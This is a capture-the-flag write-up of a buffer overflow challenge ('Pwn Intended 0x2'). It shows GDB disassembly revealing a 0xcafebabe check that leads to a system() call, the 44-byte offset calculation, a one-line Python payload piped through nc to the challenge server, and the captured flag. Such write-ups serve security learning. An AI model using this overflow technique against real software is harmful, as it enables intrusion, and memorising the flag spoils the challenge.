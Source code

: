 ## Pwn Intended 0x2

### Writeup by Trent (teerix)

Category: Pwn

```
Travelling through spacetime!

nc chall.csivit.com 30007

File Included: pwn-intended-0x2 Binary
```

I decided to disassemble the main function of the binary file in GDB before 
trying any sort of fuzzing on their server implementation.

This stuck out at me immediately:

```
Dump of assembler code for function main:
   [Some output omitted]
   0x00000000004011ca <+116>:   cmp    DWORD PTR [rbp-0x4],0xcafebabe
   0x00000000004011d1 <+123>:   jne    0x4011f0 <main+154>
   0x00000000004011d3 <+125>:   lea    rdi,[rip+0xe66]        # 0x402040
   0x00000000004011da <+132>:   call   0x401030 <puts@plt>
   0x00000000004011df <+137>:   lea    rdi,[rip+0xe8a]        # 0x402070
   0x00000000004011e6 <+144>:   mov    eax,0x0
   0x00000000004011eb <+149>:   call   0x401050 <system@plt>
   0x00000000004011f0 <+154>:   mov    eax,0x0
   0x00000000004011f5 <+159>:   leave  
   0x00000000004011f6 <+160>:   ret    
```


Which seemingly meant that `$rbp-0x4` had to be overwritten with hex 0xcafebabe


Printing out $rbp-0x4 showed that it pointed to memory location 0x7fffffffdf7c.

Upon printing the stack out it can be seen that the memory location where 0xcafebabe should be placed was
44 bytes ahead in the stack.

Now I simply called python to take care of overwriting the stack and inserting the appropriate bytes at the offset:

`python -c 'print "A"*44+"\xbe\xba\xfe\xca"' | nc chall.csivit.com 30007`

Boom! We receive the message: "You've reached your destination, here's a flag!" along with the flag


Flag: csictf{c4n_y0u_re4lly_telep0rt?}
